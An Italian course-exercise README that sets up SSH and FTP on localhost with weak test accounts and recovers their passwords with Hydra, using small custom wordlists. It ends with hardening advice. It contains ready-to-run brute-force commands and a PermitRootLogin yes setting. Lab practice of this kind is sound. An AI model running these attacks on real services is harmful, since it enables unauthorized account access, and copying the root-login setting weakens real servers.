

# Progetto S6/L5: Brute Force SSH e FTP con Hydra

## **Obiettivo dell'Esercizio**

L'obiettivo dell'esercizio è stato duplice:
1. 🛡️ Fare pratica con lo strumento **Hydra** per effettuare attacchi di brute force sull'autenticazione di servizi di rete.
2. 🔧 Configurare i servizi SSH e FTP, consolidando la conoscenza di gestione e protezione dei servizi di rete.

---

## **Passaggi Seguiti**

### **1. Configurazione del Servizio SSH**

1. **Creazione dell'utente per il test**:
   ```bash
   sudo adduser test_user
   ```
   - Nome utente: `test_user`
   - Password: `testpass`

2. **Attivazione del servizio SSH**:
   ```bash
   sudo service ssh start
   ```

3. **Modifica del file di configurazione SSH** (opzionale):
   - Per permettere configurazioni avanzate, abbiamo modificato `/etc/ssh/sshd_config`:
     ```bash
     sudo nano /etc/ssh/sshd_config
     ```
     - Esempio di modifica: 
       ```
       PermitRootLogin yes
       MaxStartups 10:30:60
       ```
   - Riavvio del servizio SSH:
     ```bash
     sudo service ssh restart
     ```

4. **Verifica del servizio SSH**:
   - Recupero dell'indirizzo IP:
     ```bash
     ifconfig
     ```
   - Test della connessione:
     ```bash
     ssh test_user@127.0.0.1
     ```

### **2. Creazione delle Wordlist Personalizzate**

Abbiamo creato due file di wordlist per simulare un attacco mirato:

- **Wordlist delle password**:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > passwords.txt
  ```

- **Wordlist dei nomi utente**:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > usernames.txt
  ```

### **3. Utilizzo di Hydra per il Brute Force su SSH**

Abbiamo utilizzato **Hydra** per effettuare il brute force sul servizio SSH:

1. **Comando per Hydra**:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```
   - `-L usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server SSH (localhost).
   - `-t 1`: Esegue un thread alla volta per evitare errori di connessione.

2. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `test_user`
     - Password: `testpass`


### **4. Configurazione del Servizio FTP**

1. **Installazione del server FTP**:
   ```bash
   sudo apt-get install vsftpd -y
   ```

2. **Avvio del servizio FTP**:
   ```bash
   sudo service vsftpd start
   ```

3. **Modifica del file di configurazione FTP**:
   - Disabilitazione dell'accesso anonimo e abilitazione degli utenti locali:
     ```bash
     sudo nano /etc/vsftpd.conf
     ```
     Modifiche effettuate:
     ```
     anonymous_enable=NO
     local_enable=YES
     ```
   - Riavvio del servizio FTP:
     ```bash
     sudo service vsftpd restart
     ```

4. **Creazione dell'utente per il test FTP**:
   ```bash
   sudo adduser ftp_user
   ```
   - Nome utente: `ftp_user`
   - Password: `ftp_pass`

### **5. Utilizzo di Hydra per il Brute Force su FTP**

1. **Creazione delle wordlist personalizzate**:
   - File dei nomi utente:
     ```bash
     echo -e "ftp_user\nadmin\nroot\nguest\nuser1" > ftp_usernames.txt
     ```
   - File delle password:
     ```bash
     echo -e "123456\npassword\nftp_pass\nadmin123\nwelcome" > ftp_passwords.txt
     ```

2. **Comando per Hydra**:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
   - `-L ftp_usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P ftp_passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server FTP (localhost).
   - `-t 1`: Esegue un thread alla volta.

3. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `ftp_user`
     - Password: `ftp_pass`



---

## **Conclusioni e Considerazioni**

L'esercizio ha dimostrato:
1. 💡 L'efficacia degli attacchi brute force con dizionari mirati.
2. 🔐 La necessità di proteggere i servizi di rete configurando correttamente il file di configurazione e implementando sistemi di rilevamento come `fail2ban`.

### **Miglioramenti Suggeriti per la Sicurezza**
- **Usare chiavi SSH** invece delle password.
- **Limitare i tentativi di login** e disabilitare utenti inutilizzati.
- **Configurare fail2ban** per bloccare tentativi ripetuti.

---

## **File Utilizzati**

- `usernames.txt`: Wordlist per i nomi utente SSH.
- `passwords.txt`: Wordlist per le password SSH.
- `ftp_usernames.txt`: Wordlist per i nomi utente FTP.
- `ftp_passwords.txt`: Wordlist per le password FTP.

Questi file sono inclusi nella directory del progetto per eventuali test futuri.

---

## **Comandi Chiave Riassunti**

1. Creazione dell'utente SSH:
   ```bash
   sudo adduser test_user
   ```

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Creazione dell'utente FTP:
   ```bash
   sudo adduser ftp_user
   ```

4. Avvio del servizio FTP:
   ```bash
   sudo service vsftpd start
   ```

5. Esecuzione di Hydra su SSH:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```

6. Esecuzione di Hydra su FTP:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
